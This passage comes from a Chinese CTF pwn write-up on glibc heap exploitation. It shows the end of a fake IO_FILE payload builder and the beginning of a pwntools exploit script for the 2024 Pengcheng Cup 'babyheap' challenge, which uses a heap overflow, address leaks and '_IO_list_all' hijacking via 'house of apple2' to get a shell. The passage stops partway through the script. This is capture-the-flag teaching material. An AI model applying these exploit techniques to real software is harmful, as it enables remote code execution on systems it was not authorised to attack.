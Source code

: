 ```python
        }, filler='\x00'
    )

    payload = fake_IO_file

    return payload
```

例题分析
----

### 2024鹏城杯 babyheap

edit函数给了一次机会的堆溢出。

![image-20241109180026973.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e955e473cd7dae5c5b9d7ab28185d41f7d6fa668.png)

布局堆风水泄露heap地址与libc地址。  
劫持\_IO\_list\_all，使用house of apple2的getshell模板一把嗦。

```python
from pwn import *
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

context.arch = 'amd64'
context.log_level = 'debug'

fn = './pwn'
elf = ELF(fn)
libc = elf.libc

debug = 1
if debug:
    p = process(fn)
else:
    p = remote()

def dbg(s=''):
    if debug:
        gdb.attach(p, s)
        pause()

    else:
        pass

lg = lambda x, y: log.success(f'{x}: {hex(y)}')

def menu(index):
    p.sendlineafter('your choice:', str(index))

def add(index, size, content):
    menu(1)
    p.sendlineafter('input idx:', str(index))
    p.sendlineafter('input size:', str(size))
    p.sendafter('input content:', content)

def show(index):
    menu(3)
    p.sendlineafter('input idx:', str(index))

def edit(index, content):
    menu(4)
```